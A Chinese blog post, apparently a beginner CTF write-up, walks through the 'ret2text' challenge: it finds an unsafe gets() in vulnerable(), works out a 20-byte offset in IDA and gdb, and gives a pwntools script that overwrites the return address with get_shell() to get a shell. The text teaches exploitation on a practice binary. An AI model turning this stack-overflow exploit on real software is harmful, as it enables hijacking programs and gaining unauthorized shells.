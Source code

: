 ```yaml
---
layout:     post
title:      pwn学习（一）：栈溢出覆盖返回地址
subtitle:   利用栈溢出获取控制权
date:       2021-08-07
author:     Hongtai S
header-img: img/5.jpg
catalog: true
tags:
    - 漏洞
    - 二进制
    - 栈溢出
    - pwn
---
```

# 栈溢出覆盖返回地址 #


## ret2text题目分析 ##

将文件ret2text拖入Ida中查看还原的C代码：

![1.PNG](https://i.loli.net/2021/08/07/5DFHOYzJjEMqRpt.png)

看到可以的函数vulnerable()，跟进查看：

![2.PNG](https://i.loli.net/2021/08/07/nEvxPSeLVlBYT9U.png)

发现不安全的gets()函数,能够利用栈溢出覆盖返回地址以获取一次劫持程序执行流的机会。

继续寻找能够利用的跳转地址，发现程序中包含get_shell()函数，跟进：

![3.PNG](https://i.loli.net/2021/08/07/J6ucoV7dN4yfRMS.png)

![4.PNG](https://i.loli.net/2021/08/07/GOHkcoy9vKeudPp.png)

刚好是能够获取目标系统的shell函数，入口地址为0x08048522，将返回地址覆盖为入口地址即可成功获取shell
在Ida中显示函数vulnerable()的buffer字符串与ebp的距离为10h，栈中返回地址前需要填充10h(与ebp距离) + 4(ebp)大小的字符串也就是"AAAA" * 4 + "BBBB"，最后加上get_shell()的入口地址0x08048522。

gdb动态调试验证：

跟进vulnerable()函数，输入字符串AAAA后查看栈中情况：

![5.PNG](https://i.loli.net/2021/08/07/iBRWqTX86PlJdGv.png)

![6.PNG](https://i.loli.net/2021/08/07/BqTnkwOFS8pX7VE.png)

可以看到从字符串起止地址覆盖到返回地址总共需要20个字符，与实际情况相符。

## 编写脚本 ##

 ```python
from pwn import *

#远程连接服务器使用remote函数
#io = remote("ip", port)

#使用本地进程测试使用process函数
io = process("ret2text")

#接受程序的一行打印
io.recvline()

#构造覆盖返回地址的字符串，注意要将数据转为字节的形式
payload = b'AAAA' * 5 + p32(0x8048522)

#发送构造的数据
io.sendline(payload)

#获取shell交互权限
io.interactive()

```

运行脚本成功获取shell权限
![7.PNG](https://i.loli.net/2021/08/07/vStumLenk1B2C4Z.png)



